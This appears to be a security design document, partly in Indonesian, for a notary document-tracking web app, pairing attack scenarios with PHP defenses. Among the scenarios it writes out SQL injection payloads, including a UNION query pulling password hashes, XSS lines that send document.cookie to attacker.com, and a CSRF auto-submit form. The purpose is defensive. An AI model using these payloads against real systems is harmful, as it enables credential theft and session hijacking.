

# Attacker vs Defense - Skenario Serangan dan Pertahanan Sistem

## 1. Overview

Dokumen ini menjelaskan skenario serangan potensial terhadap Sistem Tracking Status Dokumen Notaris dan mekanisme pertahanan yang diimplementasikan untuk mencegah atau mitigate serangan tersebut.

---

## 2. Threat Landscape

### 2.1 Attack Vectors



---

## 3. Skenario Serangan dan Pertahanan

### 3.1 SQL Injection Attack

#### Skenario Serangan

**Attacker Goal:** Mencuri data registrasi atau memanipulasi database

**Attack Vector:** Input field pada form tracking

**Attack Payload:**
```sql
-- Input pada form tracking
Nomor Registrasi: NP-20260326-1234' OR '1'='1

-- Expected vulnerable query (if not protected):
SELECT * FROM registrasi 
WHERE nomor_registrasi = 'NP-20260326-1234' OR '1'='1'

-- Result: Returns ALL registrasi (data breach)
```

**Advanced Attack:**
```sql
-- Union-based injection
Nomor Registrasi: NP-20260326-1234' UNION SELECT 
    id, username, password_hash, role, created_at, updated_at, NULL 
FROM users --

-- Goal: Extract user credentials
```

#### Defense Mechanism

**Implementation:**
```php
// SECURE: Prepared Statements
class Registrasi {
    public function findByNomorRegistrasi(string $nomor): ?array {
        return Database::selectOne(
            "SELECT p.id, p.klien_id, p.nomor_registrasi, p.status,
                    k.nama AS klien_nama, k.hp AS klien_hp
             FROM registrasi p
             LEFT JOIN klien k ON p.klien_id = k.id
             WHERE p.nomor_registrasi = :nomor
             LIMIT 1",
            ['nomor' => $nomor] // Parameter bound safely
        );
    }
}

// Database Adapter
class Database {
    public static function selectOne(string $sql, array $params = []): ?array {
        $stmt = self::prepare($sql);
        $stmt->execute($params); // Parameters bound, not concatenated
        return $stmt->fetch(PDO::FETCH_ASSOC) ?: null;
    }
}
```

**Why It Works:**
- Prepared statements separate SQL logic from data
- User input is treated as data, not SQL code
- Even if input contains SQL syntax, it's escaped
- PDO handles proper escaping automatically

**Result:**
```
Attack Input: NP-20260326-1234' OR '1'='1
Treated As: Literal string "NP-20260326-1234' OR '1'='1"
Query Result: No match (safe)
```

---

### 3.2 Cross-Site Scripting (XSS) Attack

#### Skenario Serangan

**Attacker Goal:** Mencuri session cookie atau redirect user ke malicious site

**Attack Vector:** Input field (catatan internal, nama klien)

**Attack Payload:**
```javascript
-- Input pada form create registrasi
Nama Klien: <script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>

-- Stored XSS payload
Catatan: 
```

**Impact:**
- Session hijacking via cookie theft
- Defacement
- Phishing redirects
- Keylogging

#### Defense Mechanism

**Layer 1: Input Sanitization**
```php
// Global Input Sanitization
class InputSanitizer {
    public static function sanitizeGlobal(): void {
        foreach ($_GET as $key => $value) {
            $_GET[$key] = self::sanitize($value);
        }
        foreach ($_POST as $key => $value) {
            $_POST[$key] = self::sanitize($value);
        }
    }
    
    private static function sanitize($data) {
        if (is_array($data)) {
            return array_map([self::class, 'sanitize'], $data);
        }
        // Convert special characters to HTML entities
        return htmlspecialchars(trim($data), ENT_QUOTES, 'UTF-8');
    }
}
```

**Layer 2: Output Encoding**
```php
// In views (even though input is sanitized, defense in depth)
<h1><?= htmlspecialchars($pageTitle, ENT_QUOTES, 'UTF-8') ?></h1>
<p><?= $catatan ?></p>
```

**Layer 3: Security Headers**
```php
function sendSecurityHeaders(): void {
    header('X-XSS-Protection: 1; mode=block'); // Browser XSS filter
    header('X-Content-Type-Options: nosniff'); // Prevent MIME sniffing
    header('Content-Security-Policy: default-src \'self\''); // CSP
}
```

**Result:**
```
Attack Input: <script>alert('XSS')</script>
After Sanitization: &lt;script&gt;alert(&#039;XSS&#039;)&lt;/script&gt;
Browser Display: <script>alert('XSS')</script> (as text, not executed)
Attack Result: FAILED
```

---

### 3.3 Cross-Site Request Forgery (CSRF) Attack

#### Skenario Serangan

**Attacker Goal:** Memaksa user melakukan aksi tanpa sepengetahuan mereka

**Attack Vector:** Malicious website dengan form tersembunyi

**Attack Scenario:**
```html
<!-- Attacker's Website -->
<html>
<body>
    <!-- User visits attacker's site while logged in to notaris system -->
    <form id="maliciousForm" action="https://notaris.example.com/index.php?gate=update_status" method="POST">
        <input type="hidden" name="registrasi_id" value="123">
        <input type="hidden" name="status" value="batal">
        <input type="hidden" name="catatan" value="Cancelled by attacker">
    </form>
    <script>
        document.getElementById('maliciousForm').submit();
    </script>
</body>
</html>
```

**Impact:**
- Unauthorized status changes
- Data manipulation
- Account takeover

#### Defense Mechanism

**CSRF Token Implementation:**
```php
// Token Generation (stored in session)
class CSRF {
    public static function token(): string {
        if (empty($_SESSION['csrf_token'])) {
            $_SESSION['csrf_token'] = bin2hex(random_bytes(32)); // 64-char hex
        }
        return $_SESSION['csrf_token'];
    }
    
    // Token Validation
    public static function validate(?string $token): bool {
        if (empty($token) || empty($_SESSION['csrf_token'])) {
            return false;
        }
        // Timing-safe comparison
        return hash_equals($_SESSION['csrf_token'], $token);
    }
}
```

**Form Integration:**
```php
<!-- In every form -->
<form method="POST" action="/index.php?gate=update_status">
    <input type="hidden" name="csrf_token" value="<?= CSRF::token() ?>">
    <!-- other fields -->
</form>
```

**Controller Validation:**
```php
// In Controller
public function updateStatus(): void {
    // Validate CSRF first
    if (!CSRF::validate($_POST['csrf_token'] ?? null)) {
        http_response_code(403);
        echo json_encode(['success' => false, 'message' => 'CSRF token invalid']);
        exit;
    }
    
    // Proceed with business logic...
}
```

**Result:**
```
Attacker's Form: No CSRF token (or invalid token)
Server Validation: CSRF token missing/invalid
Response: 403 Forbidden
Attack Result: FAILED
```

---

### 3.4 Session Hijacking Attack

#### Skenario Serangan

**Attacker Goal:** Mengambil alih session user yang sah

**Attack Methods:**

**Method 1: Session Sniffing (Network)**
```
Attacker on same WiFi network
↓
Sniff unencrypted HTTP traffic
↓
Capture session cookie: PHPSESSID=abc123...
↓
Use stolen session ID in their browser
↓
Impersonate legitimate user
```

**Method 2: XSS Cookie Theft**
```javascript
// XSS payload steals session
<script>
    fetch('http://attacker.com/steal?cookie=' + document.cookie);
</script>
```

**Method 3: Session Fixation**
```
Attacker gets victim to use known session ID
↓
Victim logs in with attacker's session ID
↓
Attacker uses same session ID to access account
```

#### Defense Mechanism

**Layer 1: Session Fingerprinting**
```php
class Auth {
    public static function startSecureSession(): void {
        if (session_status() === PHP_SESSION_NONE) {
            // Secure session configuration
            ini_set('session.cookie_httponly', 1); // JavaScript cannot access
            ini_set('session.cookie_secure', 1); // HTTPS only
            ini_set('session.cookie_samesite', 'Strict'); // CSRF protection
            ini_set('session.use_strict_mode', 1); // Prevent fixation
            
            session_name(SESSION_NAME);
            session_start();
            
            // Generate fingerprint
            $fingerprint = hash('sha256', 
                $_SERVER['HTTP_USER_AGENT'] . 
                $_SERVER['REMOTE_ADDR']
            );
            
            if (!isset($_SESSION['user_fingerprint'])) {
                $_SESSION['user_fingerprint'] = $fingerprint;
            } else {
                // Validate fingerprint on each request
                if (!hash_equals($_SESSION['user_fingerprint'], $fingerprint)) {
                    // Session hijacking detected!
                    session_destroy();
                    logSecurityEvent('SESSION_HIJACK_ATTEMPT', [
                        'ip' => $_SERVER['REMOTE_ADDR'],
                        'user_agent' => $_SERVER['HTTP_USER_AGENT'],
                    ]);
                    throw new SecurityException('Session hijacking detected');
                }
            }
        }
    }
}
```

**Layer 2: Secure Cookie Configuration**
```php
// Cookie settings
ini_set('session.cookie_httponly', 1);    // HttpOnly flag
ini_set('session.cookie_secure', 1);      // Secure flag (HTTPS only)
ini_set('session.cookie_samesite', 'Strict'); // SameSite=Strict
```

**Layer 3: Session Timeout**
```php
// Check session lifetime
if (isset($_SESSION['last_activity']) && 
    (time() - $_SESSION['last_activity'] > SESSION_LIFETIME)) {
    session_destroy(); // 2 hours timeout
    throw new SecurityException('Session expired');
}
$_SESSION['last_activity'] = time();
```

**Result:**
```
Attacker steals session ID
↓
Attacker makes request with stolen ID
↓
System checks fingerprint (IP + User Agent)
↓
Fingerprint mismatch (attacker has different IP/UA)
↓
Session destroyed, attack logged
Attack Result: FAILED
```

---

### 3.5 Brute Force Attack

#### Skenario Serangan

**Attacker Goal:** Mendapatkan akses dengan mencoba banyak kombinasi password/code

**Attack Vector 1: Login Brute Force**
```
Automated script tries:
- admin / password1
- admin / password2
- admin / 123456
- ... (thousands of combinations)
```

**Attack Vector 2: Tracking Code Brute Force**
```
Attacker tries all 4-digit combinations:
- 0000, 0001, 0002, ... 9999
Goal: Guess correct 4-digit phone code
```

**Impact:**
- Unauthorized access
- Data breach
- Account takeover

#### Defense Mechanism

**Rate Limiter Implementation:**
```php
class RateLimiter {
    public static function check(string $key, int $maxRequests = 5, int $window = 60): bool {
        $ip = $_SERVER['REMOTE_ADDR'] ?? 'unknown';
        $file = STORAGE_PATH . '/cache/ratelimit/' . md5($key . $ip) . '.rl';
        
        $now = time();
        $data = file_exists($file) ? json_decode(file_get_contents($file), true) : null;
        
        if (!$data || ($now - $data['time']) > $window) {
            // New window, reset counter
            file_put_contents($file, json_encode(['count' => 1, 'time' => $now]));
            return true;
        }
        
        if ($data['count'] >= $maxRequests) {
            return false; // Rate limited
        }
        
        $data['count']++;
        file_put_contents($file, json_encode($data));
        return true;
    }
}
```

**Login Protection:**
```php
// Auth Controller
public function login(): void {
    // Rate limiting: 5 attempts per 5 minutes
    if (!RateLimiter::check('login', 5, 300)) {
        http_response_code(429);
        echo json_encode([
            'success' => false, 
            'message' => 'Terlalu banyak percobaan. Silakan tunggu beberapa saat.'
        ]);
        exit;
    }
    
    // Proceed with authentication...
}
```

**Tracking Verification Protection:**
```php
// Main Controller
public function verifyTracking(): void {
    // Rate limiting: 5 attempts per minute
    if (!RateLimiter::check('tracking_verify', 5, 60)) {
        http_response_code(429);
        echo json_encode([
            'success' => false, 
            'message' => 'Terlalu banyak percobaan. Silakan tunggu beberapa saat.'
        ]);
        exit;
    }
    
    // Proceed with verification...
}
```

**Security Logging:**
```php
// Log failed attempts
if ($phoneCode !== $last4Phone) {
    logSecurityEvent('FAILED_VERIFICATION', [
        'registrasi_id' => $registrasiId,
        'attempted_code' => $phoneCode,
        'ip' => $_SERVER['REMOTE_ADDR'],
    ]);
}
```

**Result:**
```
Attacker tries: 0000, 0001, 0002, 0003, 0004, 0005
After 5th attempt: Rate limit triggered
Response: 429 Too Many Requests
Attacker must wait: 60 seconds (or 5 minutes for login)
Brute Force: NOT FEASIBLE (10,000 combinations would take ~2 years)
Attack Result: FAILED
```

---

### 3.6 Privilege Escalation Attack

#### Skenario Serangan

**Attacker Goal:** Mendapatkan akses level tinggi (notaris) dari akun rendah (admin/publik)

**Attack Vector 1: Parameter Tampering**
```json
// Attacker (admin role) modifies request
{
    "registrasi_id": 123,
    "status": "selesai",
    "role": "notaris"  // Attempting to escalate
}
```

**Attack Vector 2: Direct Endpoint Access**
```
Admin user tries to access:
GET /index.php?gate=users (User management - notaris only)
GET /index.php?gate=backups (Backup management - notaris only)
```

**Attack Vector 3: Session Manipulation**
```php
// Attacker tries to modify session
$_SESSION['role'] = 'notaris'; // Attempt escalation
```

#### Defense Mechanism

**Layer 1: RBAC Enforcement**
```php
class RBAC {
    private static array $permissions = [
        'notaris' => ['*'], // Full access
        'admin'   => [
            'dashboard.view',
            'registrasi.view', 'registrasi.create', 'registrasi.edit',
            'status.update', 'klien.update',
        ],
        'publik'  => [
            'home.view', 'tracking.view', 'detail.view',
        ],
    ];
    
    public static function enforce(string $permission): void {
        $session = Auth::getSession();
        $role = $session['role'] ?? 'guest';
        
        // Wildcard check (notaris has full access)
        if (in_array('*', self::$permissions[$role] ?? [])) {
            return;
        }
        
        // Permission check
        if (!in_array($permission, self::$permissions[$role] ?? [])) {
            Logger::security('RBAC_ACCESS_DENIED', [
                'permission' => $permission,
                'role' => $role,
                'user_id' => $session['user_id'] ?? 'guest',
            ]);
            
            http_response_code(403);
            exit('Forbidden');
        }
    }
}
```

**Layer 2: Route-Level Protection**
```php
// config/routes.php
Router::add('users', 'GET', [
    DashboardController::class, 'users'
], ['auth' => true, 'role' => 'notaris']); // Notaris only

Router::add('backups', 'GET', [
    DashboardController::class, 'backups'
], ['auth' => true, 'role' => 'notaris']); // Notaris only

Router::add('tutup_registrasi', 'POST', [
    FinalisasiController::class, 'tutupRegistrasi'
], ['auth' => true, 'role' => 'notaris']); // Notaris only
```

**Layer 3: Controller-Level Validation**
```php
// In Controller
public function users(): void {
    // Double-check RBAC (defense in depth)
    RBAC::enforce('users.manage');
    
    // Proceed with user management...
}
```

**Layer 4: Session Integrity**
```php
// Session data is server-side only
// Cannot be modified by client
$_SESSION['role'] = $user['role']; // Set from database, not user input
```

**Result:**
```
Admin tries to access /index.php?gate=users
↓
Router checks route config: role = 'notaris'
↓
RBAC::enforce() checks session role: 'admin'
↓
'admin' does not have 'users.manage' permission
↓
Response: 403 Forbidden
Attack Result: FAILED
```

---

### 3.7 Information Leakage Attack

#### Skenario Serangan

**Attacker Goal:** Mendapatkan informasi sensitif tentang sistem atau data

**Attack Vector 1: Error Messages**
```
Attacker triggers error to see stack trace
Goal: Learn about database structure, file paths, etc.
```

**Attack Vector 2: Directory Listing**
```
Attacker accesses /storage/logs/
Goal: View security logs, find sensitive data
```

**Attack Vector 3: Tracking Data Exposure**
```
Attacker tries to access tracking without verification
Goal: View client phone numbers, status details
```

#### Defense Mechanism

**Layer 1: Generic Error Messages**
```php
// Front Controller
try {
    App\Core\Router::dispatch();
} catch (\Throwable $e) {
    // Log detailed error internally
    App\Adapters\Logger::error('DISPATCH_EXCEPTION', [
        'message' => $e->getMessage(),
        'file' => $e->getFile(),
        'line' => $e->getLine(),
    ]);
    
    // Show generic error to user
    http_response_code(500);
    echo '<h1>500 - Internal Server Error</h1>';
    echo '<p>Terjadi kesalahan sistem. Silakan coba lagi.</p>';
}
```

**Layer 2: Directory Protection**
```apache
# /storage/.htaccess
<IfModule mod_rewrite.c>
    RewriteEngine On
    RewriteRule ^ - [F]
</IfModule>

# Block direct access to all files
<FilesMatch ".*">
    Order allow,deny
    Deny from all
</FilesMatch>
```

**Layer 3: Data Masking**
```php
// Never expose full phone number
public function verifyTracking(): void {
    // Get klien data
    $klien = $this->klienModel->findById($registrasi['klien_id']);
    
    // Extract only last 4 digits (never expose full number)
    $cleanPhone = preg_replace('/[^0-9]/', '', $klien['hp']);
    $last4Phone = substr($cleanPhone, -4);
    
    // Compare with input (no exposure)
    if ($phoneCode !== $last4Phone) {
        // Failed
    }
}
```

**Layer 4: Token-Based Access**
```php
// Tracking requires valid token
public function showRegistrasi(): void {
    $token = $_GET['token'] ?? '';
    
    if (empty($token)) {
        redirect('/index.php?gate=lacak');
        exit;
    }
    
    // Verify token
    $tokenData = verifyTrackingToken($token);
    if (!$tokenData) {
        http_response_code(403);
        echo '<h1>Akses Ditolak</h1>';
        exit;
    }
    
    // Only show data if token valid
}
```

**Result:**
```
Attacker triggers error
↓
Detailed error logged internally only
↓
User sees: "500 - Internal Server Error" (no details)
Attack Result: FAILED (no information gained)

Attacker tries /storage/logs/
↓
.htaccess blocks access
↓
Response: 403 Forbidden
Attack Result: FAILED
```

---

### 3.8 Denial of Service (DoS) Attack

#### Skenario Serangan

**Attacker Goal:** Membuat sistem tidak tersedia untuk user sah

**Attack Method:**
```
Automated bot sends thousands of requests per second
↓
Server resources exhausted
↓
Legitimate users cannot access system
```

**Target Endpoints:**
- Homepage (resource-intensive CMS rendering)
- Tracking search (database queries)
- Login (authentication overhead)

#### Defense Mechanism

**Layer 1: Rate Limiting**
```php
// Homepage rate limit
if (!RateLimiter::check('homepage', 100, 60)) {
    http_response_code(429);
    exit('Too many requests');
}

// Tracking search rate limit
if (!RateLimiter::check('tracking_search', 5, 60)) {
    http_response_code(429);
    exit('Too many requests');
}
```

**Layer 2: Caching**
```php
// Homepage CMS caching
$cacheKey = 'homepage_content';
$cachedData = getCache($cacheKey);

if ($cachedData && $cachedData['age'] < CACHE_TTL_HOMEPAGE) {
    // Serve from cache (fast)
    return $cachedData['content'];
}

// Generate content (expensive)
$content = generateHomepageContent();

// Cache for 1 hour
setCache($cacheKey, $content, 3600);
```

**Layer 3: Database Query Optimization**
```php
// Indexed queries for fast lookup
CREATE INDEX idx_registrasi_nomor ON registrasi(nomor_registrasi);
CREATE INDEX idx_registrasi_status ON registrasi(status);

// Limit result sets
SELECT * FROM registrasi ORDER BY created_at DESC LIMIT 20;
```

**Result:**
```
Attacker sends 1000 requests/second
↓
Rate limiter blocks after 5-100 requests/minute (per endpoint)
↓
Cached responses reduce server load
↓
Legitimate users still served
Attack Result: MITIGATED
```

---

## 4. Attack Summary Matrix

| Attack Type | Target | Defense | Status |
|-------------|--------|---------|--------|
| SQL Injection | Database | Prepared Statements | ✅ Blocked |
| XSS | Users/Browser | Input Sanitization + Output Encoding | ✅ Blocked |
| CSRF | State Changes | CSRF Token Validation | ✅ Blocked |
| Session Hijacking | User Sessions | Fingerprinting + Secure Cookies | ✅ Blocked |
| Brute Force | Credentials | Rate Limiting | ✅ Blocked |
| Privilege Escalation | Authorization | RBAC Enforcement | ✅ Blocked |
| Information Leakage | Sensitive Data | Generic Errors + Data Masking | ✅ Blocked |
| DoS | Availability | Rate Limiting + Caching | ✅ Mitigated |

---

## 5. Dampak Terhadap Data Hukum

### 5.1 Potential Impact Analysis

| Attack Success | Impact on Legal Documents | Severity |
|----------------|---------------------------|----------|
| SQL Injection | Data theft, manipulation | CRITICAL |
| XSS | Session theft, phishing | HIGH |
| CSRF | Unauthorized status changes | HIGH |
| Session Hijacking | Full account takeover | CRITICAL |
| Privilege Escalation | Unauthorized access to sensitive cases | CRITICAL |
| Information Leakage | Client privacy breach | HIGH |

### 5.2 Legal Implications

**If Attack Succeeds:**
- Violation of client confidentiality
- Potential legal liability for notaris
- Loss of professional credibility
- Regulatory compliance issues

**Mitigation:**
- Comprehensive audit trail for accountability
- Security measures demonstrate due diligence
- Regular security audits for compliance

---

## 6. Kesimpulan

Sistem pertahanan yang diimplementasikan:

1. **Defense in Depth** - Multiple layers of security
2. **Input Validation** - Sanitization dan prepared statements
3. **Output Encoding** - XSS prevention
4. **CSRF Protection** - Token validation
5. **Session Security** - Fingerprinting, secure cookies
6. **Rate Limiting** - Brute force dan DoS prevention
7. **RBAC** - Authorization enforcement
8. **Information Hiding** - Generic errors, data masking

Semua skenario serangan telah dianalisis dan defense mechanism diimplementasikan untuk melindungi data dokumen hukum yang sensitif sesuai dengan best practices keamanan aplikasi web.
